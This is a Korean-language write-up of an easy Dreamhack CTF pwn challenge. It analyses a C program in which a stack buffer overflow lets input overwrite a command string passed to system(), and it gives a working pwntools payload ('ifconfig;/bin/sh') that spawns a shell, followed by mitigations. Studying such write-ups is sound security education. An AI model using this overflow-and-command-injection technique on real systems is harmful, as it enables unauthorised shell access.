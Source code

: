 # cmd_center - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 1
- Provided Files: cmd_center.c, cmd_center(ELF)
- tools:
## Brief Description
## Initial Analysis
### Environment
``` sh
checksec cmd_center
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```
### Code
``` c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void init() {
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
}

int main() {
	char cmd_ip[256] = "ifconfig"; // 0x100
	int dummy;
	char center_name[24]; // 18

	init();

	printf("Center name: ");
	read(0, center_name, 100);


	if( !strncmp(cmd_ip, "ifconfig", 8)) {
		system(cmd_ip);
	}
	else {
		printf("Something is wrong!\n");
	}
	exit(0);
}
```
### strncmp
``` c
if( !strncmp(cmd_ip, "ifconfig", 8)) {
    system(cmd_ip);
}
```
`cmd_ip`와 `"ifconfig"`를 8바이트 비교한다. 초기 8바이트가 동일하다면 `com_ip`의 내용을 `system`으로 실행한다.  
## Vulnerability
### BOF(Buffer Overflow)
``` c
read(0, center_name, 100); // center_name size = 24
```
`center_name`의 크기는 24인 반면, `read`로 읽는 크기는 100으로 76만큼 초과한다. BOF 취약점이 발생하여 `center_name` 범위를 넘어선 상위 주소에 임의 값을 덮을 가능성이 존재한다.  
### Command Injection
``` c
if( !strncmp(cmd_ip, "ifconfig", 8)) {
    system(cmd_ip);
}
```
`strncmp`는 초기 8바이트만 `cmd_ip`가 `"ifconfig"`와 같은지 확인하므로 그 이후에 어떤 값이 오든 상관이 없다. 따라서 `cmd_ip` 8바이트 이후 값을 원하는 값을 덮어쓸 수 있다면 Command Injection 취약점이 발생할 수 있다.  
## Exploit
### Strategy
PIE, Full RELRO, NX 보호 기법이 모두 활성화 되어있다. 카나리는 비활성화 되어있는데, 마침 BOF 취약점이 존재한다. `center_name`에서 `cmd_ip`까지의 거리는 0x20이므로 `read`의 100 바이트에서 BOF를 통해 `cmd_ip`에 총 68바이트 만큼 덮어쓸 수 있다. 초기 8바이트만 `"ifconfig"`로 작성하고 그 이후에 메타 문자를 활용하여 Command Injection을 시도해 볼 수 있다.  
### Stack Frame of main
| Variable Name | Offset from RBP |
| --- | --- |
| ra | 0x8 |
| rpb |  |
| dummy | -0x10 |
| cmd_ip | -0x110 |
| dummy | -0x118 |
| center_name | -0x130 |
### payload
``` python
from pwn import *

p = remote('host1.dreamhack.games', 16581)
context.arch = "amd64"

# payload
payload = b''
payload += b'A' * 0x20 + b'ifconfig'
payload += b';/bin/sh'
p.sendlineafter(b'Center name: ', payload)

# interactive
p.interactive()
```
## Lessons Learned
### 1. User Input 
사용자의 입력을 제대로 검증하거나 필터링하지 않고 그대로 함수의 인자나 쿼리문에 사용할 경우 SQLi, Commandi, Path Traversal 등 공격이 발생한다. 어찌보면 단순하지만, 매우 큰 피해가 발생할 수 있는 공격이라는 점이 인상 깊다.  
## Mitigation Strategies(Remediation)
### 1. strncmp
만일 `strcmp`를 사용했다면 `ifconfig\x00???`과 같은 형식으로 `cmp_ip`를 변조할 수 밖에 없다. 그렇게 하면 `system("ifconfig\x00???")`은 ifconfig 명령어만 실행하고 바로 종료된다. 이유는 `\x00` NULL-byte가 존재해 그 이전의 문자열까지만 문자열로 인식하기 때문이다. 혹은 `strncmp(cmd_ip, "ifconfig", 9)`를 사용했다면 ifconfig 뒤에 `"\x00"`를 강제하기 떄문에 해당 공격을 방지할 수 있었을 것이다.  